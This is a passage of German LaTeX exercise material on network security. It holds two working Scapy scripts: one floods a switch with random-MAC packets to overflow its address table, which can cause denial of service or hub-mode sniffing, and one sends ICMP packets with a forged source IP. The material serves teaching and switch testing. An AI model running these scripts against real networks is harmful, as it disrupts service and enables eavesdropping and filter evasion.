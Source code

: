\documentclass[paper=a4,fontsize=11pt]{scrartcl}%
\numberwithin{equation}{section}
\begin{document}
Switches haben wie alle Computer nur einen begrenzten Speicher. Das gilt auch für die MAC-Adressen-Tabelle, mit deren Hilfe sich ein Switch merkt, welche MAC an welchem Port angeschlossen ist, genauso wie für den Switch-internen ARP-Cache.\\
Switches reagieren manchmal äußerst seltsam, wenn diese Speicher voll gelaufen sind. Das kann von kompletter Dienstverweigerung bis hin zur Aufgabe jeglichen Switchings und Rückfall in einen Hub-Modus reichen. Bei einem Hub-Modus wäre nicht nur der Traffic drastisch höher, weil er auf allen Ports versendet wird, alle angeschlossenen Computer könnten auch allen Traffic ohne Zusatzaufwand mitlesen. Wenn Sie ermitteln möchten, wie Ihre Switches auf diese Ausnahmesituation reagieren, können Sie mit folgendem Scapy-Script so lange zufällige MAC-Adressen generieren und an Ihren Switch schicken, bis dessen Speicher voll ist.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import *

packet = Ether(src=RandMAC("*:*:*:*:*:*"),
			dst=RandMAC("*:*:*:*:*:*")) / \
		IP(src=RandIP("*.*.*.*"),
			dst=RandIP("*.*.*.*")) / \
		ICMP()

if len(sys.argv) < 2:
	dev = "eth0"
else:
	dev = sys.argv[1]

print "Flooding net with random packets on dev " +  dev

sendp(packet, iface=dev, loop=1)
\end{python}
\emph{RandMAC} und \emph{RandIP} sorgen dafür, dass alle Bytes aller Adressen zufällig generiert werden. Den Rest erledigt der Loop-Parameter der \emph{sendp()}-Funktion.
\begin{center}\Large{\textbf{Aufgabe C -- IP-Spoofing}}\end{center}\vskip0.25in
Als IP-Spoofing bezeichnet man das Fälschen von IP-Adressen. Die Absenderadresse entspricht also nicht der IP des Netzwerkinterfaces, über das sie versendet wird bzw. versendet worden ist, sondern einer manuell gefälschten Adresse. Dies verwenden Angreifer nicht nur, um die eigentliche Herkunft eines Pakets zu verschleiern, sondern auch um Paketfilter zu umgehen oder Funktionen wie TCP-Wrapper auszutricksen, das ebenfalls Dienste anhand der IP erlaubt oder verbietet.\\
Das Programm schickt ein ICMP-Echo-Request-Paket (aka Ping) mit einer gefälschten Source-IP an einen entfernten Rechner.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import send, IP, ICMP

if len(sys.argv) < 3:
	print sys.argv[0], " <src_ip> <dst_ip>"
	sys.exit(1)
packet = IP(src=sys.argv[1], dst=sys.argv[2]) / ICMP()
answer = send(packet)
if answer:
	answer.show()
\end{python}
\end{document}
